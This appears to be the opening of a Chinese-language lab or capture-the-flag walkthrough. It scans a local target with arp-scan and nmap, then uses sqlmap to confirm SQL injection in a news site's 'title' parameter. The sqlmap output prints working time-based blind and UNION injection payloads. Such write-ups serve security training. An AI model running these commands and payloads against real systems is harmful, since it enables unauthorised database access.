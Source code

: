 # **一、信息收集**

## **1. 主机与服务发现**

首先，在本地网络中使用 `arp-scan` 扫描存活主机，确定目标靶机IP地址为 `192.168.205.245`。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo arp-scan -l
...
192.168.205.245 08:00:27:82:68:fa       PCS Systemtechnik GmbH
...
```

接着，使用 `nmap` 对目标主机进行全端口扫描，发现其开放了 22 (SSH) 和 80 (HTTP) 端口。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nmap -p- 192.168.205.245
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-04 10:09 EDT
Nmap scan report for 192.168.205.245
Host is up (0.0013s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

## **2. Web服务探索与SQL注入**

访问80端口，发现是一个新闻网站。网站内的链接 `http://192.168.205.245/news.php?title=...` 存在明显的GET参数，这通常是漏洞的切入点。

使用 `sqlmap` 对 `title` 参数进行测试，迅速确认存在SQL注入漏洞。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sqlmap -u "http://192.168.205.245/news.php?title=1" --batch
...
---
Parameter: title (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: title=1' AND (SELECT 4710 FROM (SELECT(SLEEP(5)))shBD) AND 'ceXN'='ceXN

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: title=1' UNION ALL SELECT NULL,CONCAT(0x71627a6271,...),NULL-- -
---
[10:14:22] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.59
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
...
```
